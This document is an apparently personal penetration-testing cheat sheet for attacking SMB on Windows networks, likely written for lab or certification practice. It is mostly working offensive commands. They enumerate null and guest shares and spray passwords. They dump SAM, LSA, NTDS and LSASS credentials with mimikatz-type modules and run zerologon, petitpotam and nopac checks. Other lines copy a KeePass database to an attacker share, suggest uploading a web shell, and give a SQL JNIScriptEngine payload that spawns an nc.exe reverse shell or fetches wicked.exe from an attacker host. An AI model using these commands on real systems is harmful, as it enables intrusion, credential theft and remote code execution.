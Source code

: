 ## SMB Checklist

```bash
enum4linux -a $ip
enum4linux -a -u "$dom\\$user" -p "$pass" $ip
enum4linux -a -M -l -d $ip 2>&1
enum4linux -a -u "" -p "" $ip && enum4linux -a -u "guest" -p "" $ip
enum4linux-ng $ip
nmap $ip -p 139,445 –script smb*
smbclient -L //$ip
smbclient -N -L //$ip
smbclient -L //$ip -N
smbclient -N //$ip/backup
smbclient -L //$ip/myshare -U anonymous
smbclient //$ip/transfer -N
smbclient -U '%' -N \\\\$ip\\share
smbclient -U 'guest' \\\\$ip\\share
smbclient -U null -N \\\\$ip\\share
smbclient -U '%' -N \\\\$ip\\share -m SMB2
smbclient -U '%' -N \\\\$ip\\share -m SMB3
smbclient -L \\$ip -U "" -N -p 12445
smbclient '//$ip/Sarge' -p 12445
proxychains -q smbclient //172.16.173.21/monitoring -U "relia.com\andrea"
smbclient.py -k @braavos.essos.local # -no-pass
smbclient —kerberos //$dc/share


cd /opt/ntlm_theft # If writable shares
python ntlm_theft.py -g all -s $myip -f site
sudo responder -I tun0 -d -w
for file in $(ls .); do smbclient -U $user%$pass //$ip/Shared -c "put $file"; done

smbclient.py $dom
smbclient -W WORKGROUP -U % -t 5 -L //$dom -g
smbclient -W WORKGROUP -U % -s /tmp/tmpm24idfat -t 5 -L //192.168.154.117 -g
smbclient.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@$ip
> shares
> use Users

nxc smb $ip -u 'a' -p '' --shares # Guest logon
nxc smb $ip  -u 'user' -p 'pass' -M spider_plus
nxc SMB $ip -u USER -p PASSWORD --spider C\$ --pattern txt
nxc smb $ip -u $user -p $pass -M spider_plus -o DOWNLOAD_FLAG=true MAX_FILE_SIZE=1000000000

rpcclient -N -U "" \\$ip
rpcclient -U “” $ip ///when asked enter empty password
rpcclient -U “” $ip -N
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo   //password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
nbtscan IP

smbmap -H $ip
smbmap -H $ip -u 'a' -p ''
smbmap -H $ip -u '' -p '' -d $dom
smbmap -H $ip -u '' -p '' -r 'IPC$'

smbclient —kerberos //$dc/share
```

#### Look up the SMB versions

Miss this everytime.

#### NXC

```bash
nxc smb $ip
nxc smb $ip -u $user -p $pass --shares
nxc smb $ip -u $user -p $pass -M spider_plus
nxc smb $ip -u $user -p $pass -M spider_plus -o READ_ONLY=False
nxc $ip -u $user -p $pass --sessions
nxc smb $ip -u $user -p $pass --disks
nxc smb $dc -u $user -p $pass --pass-pol
nxc smb $ip -u $user -p $pass
nxc smb $ip -u $user -H $hash
nxc smb $ip -u '' -p ''
nxc smb $ip -u $user user2 user3 -p Summer18
nxc smb $ip -u $user -p $pass1 $pass2 $pass3
nxc smb $ip -u /path/to/users.txt -p Summer18
nxc smb $ip -u $user -p /path/to/$passs.txt
nxc smb $ip -u users.txt -p Summer18 --continue-on-success
nxc smb $ip -u $user -p $pass --local-auth
nxc smb $ip -u $user -p $pass --sam
nxc smb $ip -u $user -p $pass --lsa
nxc smb $dc -u $user -p $pass --ntds #Via RPC
nxc smb $dc -u $user -p $pass --ntds vss #Via VSS
nxc smb $ip -u $user -p $pass -M lsassy
nxc smb $ip -u $user -p $pass -M nanodump
nxc smb $ip -u $user -p $pass -M mimikatz
nxc smb $ip -u $user -p $pass -M procdump
nxc ldap $dc -u $ip -p $pass -M laps -o computer=$ip
nxc $ip -u Administrator -p $pass -x whoami
nxc $ip -u Administrator -p $pass -X '$PSVersionTable'
nxc smb $ip -u $user -p $pass -M slinky -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $ip -u $user -p $pass -M scuffy -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $dc -u '' -p '' -M zerologon
nxc smb $dc -u '' -p '' -M petitpotam
nxc smb $dc -u $user -p $pass -M nopac
```
#### To recursively download

```bash
> prompt off
> recurse on
> mget *

> prompt off
> recurse on
> dir *

// smbmap
// crackmapexec
```

You can try putting payloads in SMBs as soon as you can, that way you don't have to worry about that method of client-side attacks.

If you can navigate to the web root, maybe wwwroot, you can upload a shell and try to access it through your browser.

#### Mounting SMB Shares

Instead of enumerating Windows shares with smbclient, you can mount shares on your local filesystem and enumerate in a familiar environment.
```bash
sudo mkdir /mnt/data
sudo mount -t cifs //123.123.123.123/Data /mnt/data
```

Note that Windows likes to store some files in UTF-16LE, while Linux likes UTF8. If you run into this problem, you'll need to convert in order to cat the files.

```bash
cat file | iconv -f UTF-16LE -t utf8
```

#### Notes

Using nxc smb will find you the domain name quickly.

Resource: https://www.netexec.wiki/smb-protocol/enumeration/enumerate-null-sessions

#### Create Samba (SMB) Share on Kali

To start an SMB share on a Kali Linux machine, you typically use Samba, a popular open-source        
software suite that provides file and print services to SMB/CIFS clients. Here's a quick guide:      

1. Install Samba:

```bash   
sudo apt update
sudo apt install samba
```

2. Configure Samba:

Edit the Samba configuration file:

```bash
sudo nano /etc/samba/smb.conf
```

Add your share definition at the end of the file. For example:        

```bash
[MyShare]
path = /path/to/your/share
available = yes
valid users = your_username
read only = no
browsable = yes              
public = yes
writable = yes
```

3. Add a Samba User:

Samba requires a Linux user to map to. If you haven't already, create a Linux user or use an existing one.
Then, add the user to Samba:

```bash
sudo smbpasswd -a your_username
sudo systemctl restart smbd smbd
```

4.  Verify the Share:

From a Windows machine, you can access the share using "\\kali_ip\MyShare".
From a Linux machine, use smbclient to access the share.

```bash
    "//kali_ip/MyShare -U your_username" 
```
Alternative:

Kali:

```bash
impacket-smbserver -smb2support newShare . -username test -password test
```

Windows:

```bash
PS C:\Users\jim\Documents> net use z: \\192.168.45.163\newShare /u:test test
PS C:\Users\jim\Documents> copy Database.kdbx z:\
```

You can also execute commands that lie on your Linux machine from a Windows one through SMB shares:

```bash
sudo smbserver.py -smb2support Share .

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/nc.exe -e cmd.exe 192.168.45.163 8082").getInputStream()).useDelimiter("\\Z").next()');
#or 
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/wicked.exe").getInputStream()).useDelimiter("\\Z").next()');
```